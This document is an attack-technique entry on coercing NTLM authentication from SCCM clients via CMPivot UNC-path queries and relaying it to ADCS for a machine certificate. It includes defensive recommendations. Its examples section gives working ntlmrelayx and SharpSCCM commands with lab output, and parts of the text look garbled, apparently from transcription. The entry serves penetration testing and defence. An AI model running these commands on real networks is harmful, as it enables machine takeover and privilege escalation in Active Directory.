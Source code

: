 # COERCE-1

## Description
NTLM coercion leveraging CMPivot queries

## MITRE ATT&CK TTPs
- [T1187] (https://attack.mitre.org/techniques/T1187/) - Forced Authentication

## Requirements
- Run CMPivot permission on the Collection
- Read permission on Inventory Reports
- Read permissions on Devices and Collections.

## Summary
CMPivot queries can be used to coerce SMB authentication from SCCM client hosts

A user with CMPivot query execution permissions can trigger a query pointing to a UNC path. This will coerce the SYSTEM account of the query target to authenticate against the resource at the UNC path.

SMB authentication can be relayed to a CA in the environment. If a vulnerable template exists then a certificate that allows for authentication can be obtained.

## Impact
This technique allows for taking over a machine object and privilege escalation within Active Directory environments.

## Defensive IDs
Some recommendations:

Disable NTLM where possible
Enforce Extended Protection for Authentication (EPA) along with SMB and LDAP signing.
Prioritize Kerberos authentication and harden services like ADCS and IIS to block common relay paths.

## Examples
### CMPivot Coerce

Setup a listening relay server such as ntlmrelayx:
```
root@WORKSTATION$ proxychains python3 ntmrelayx.py -debug -smb2support --no-http-server \
-target http://10.0.0.6/certsrv/certrqus.asp --adcs —template "Machine"

[proxychains] DLL init: proxychains-ng 4.14
Impacket vo.10.0 - Copyright 2022 SecureAuth Corporation
[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.10.0-py3.9.egg/impacket
[+] Protocol Client SMB loaded..
[+] Protocol Protocol
```

Trigger a FileContent query. Here we use SharpSCCMs admin-service command against the '\\CLIENT1\test' UNC path:
```
C: \Users\LabAdmin\Desktop\shared>SharpSCM.exe invoke admin-service -q FileContent('\\CLIENT1\test') - r 16777220 -d 3

[+] Querying the local WMI repository for the current management point and site code
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: CM1. corp.contoso.com
[+] Site code: CHQ
[+] Sending query to AdminService
[+] URL: "https://CM1.corp.contoso.com/AdminService/v1.0/Device(16777220)/AdminService-RunCMPivot"
[!] Received a 400 ('Bad request') response from the API. Falling back to SMS Provider method
[+] Querying the local WMI repository for the current management point and site code
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: CM1.corp.contoso.com
[+] Site code: CHO
[+] Using WMI provider: M1. corp. contoso.com
[+] Connecting to ||CM1. corp. contoso. com\root\SMS|site_CHQ
[+] Fallback Method call succeeded
[+] Attempt 1 of 5: Checking for query
```

Wait for the relay server to do it's job and get us that b64 certificate blob:
```
[*] Servers started, waiting for connections
[*] SMBD- Thread-4: Received connection from 192.168.1.14, attacking target http://10.0.0.6
[proxychains] Strict chain ... 127.0.0.1:9191 ... 10.0.0.6:80 0K
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.0.0.6 as CORP/GW1$ SUCCEED
[*] No more targets
[*] SMBD-Thread-6: Connection from 192.168.1.14 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate..
[*] No more targets
[*] SMBD- Thread -7: Connection from 192.168.1.14 controlled, but there are no more targets left!
[*] GOT CERTIFICATE! ID 3
[*] Base64 certificate of user GW1$:
MIIRFQBAZCCEM8GCSqGSIb3DQEHAaCCEMAEghC8MIIQuDCCBu8GCSqGSb3DQEHBqCCBuAwggbcAgEAMIIG1QYJKoZIhvcNAQ
```

## References
- Microsoft, [Changes to CMPivot - ConfigurationManager] (https://learn.microsoft.com/en-us/intune/configmgr/core/servers/manage/cmpivot-changes)
- Chris Thompson, [Coercing NTLM Authentication from SCCM] (https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Chris Thompson, [Relaying NTLM Authentication from SCCM client] (https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)
